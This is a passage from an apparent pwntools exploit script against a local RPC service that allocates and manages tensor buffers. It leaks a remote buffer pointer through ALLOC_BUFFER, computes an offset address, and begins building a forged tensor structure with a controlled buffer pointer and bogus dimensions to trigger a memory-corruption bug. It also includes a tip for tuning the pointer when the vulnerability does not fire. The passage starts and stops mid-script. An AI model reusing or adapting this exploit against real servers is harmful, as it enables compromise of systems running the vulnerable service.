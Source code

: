 ```
content = b''
input_size = p64(len(content))
pd+= cmd + input_size + content
p.send(pd)
recv = p.recvall(timeout=1)
p.close()


p = remote("127.0.0.1",50052)

pd = b''
cmd = p8(GET_ALIGNMENT)
content = b''
input_size = p64(len(content))
pd+= cmd + input_size + content

cmd = p8(ALLOC_BUFFER)
content = p64(0x100)
input_size = p64(len(content))
pd+= cmd + input_size + content
p.send(pd)
recv = p.recvall(timeout=1)
remote_ptr = u64(recv[0x18:0x20])
sz = u64(recv[0x20:0x28])
log.success(f"remote_ptr:{hex(remote_ptr)},size:{sz}")
p.recvall(timeout=1)
p.close()

'''
When the vulnerability cannot be triggered, you might want to adjust the next_ptr variable in the script to the buffer address returned by ALLOC_BUFFER.
'''
next_ptr = remote_ptr + 0x160
log.success(f'next_ptr:{hex(next_ptr)}')


p = remote("127.0.0.1",50052)
cmd = p8(ALLOC_BUFFER)
content = p64(0x100)
input_size = p64(len(content))
pd = cmd + input_size + content
rpc_tensor_pd = flat(
    {
        0: [
            0x1,  # id
            p32(2),  # type
            p64(next_ptr),  # buffer
            [  # ne
                p32(0xdeadbeef),
                p32(0xdeadbeef),
                p32(0xdeadbeef),
                p32(0xdeadbeef),
            ],
            [  # nb
                p32(1),
                p32(1),
                p32(1),
                p32(1),
            ],
            p32(0),  # op
            [p32(0)] * 16,  # op_params (corrected from 8 to 16)
            p32(0),  # flags
            [p64(0)] * 10,  # src
```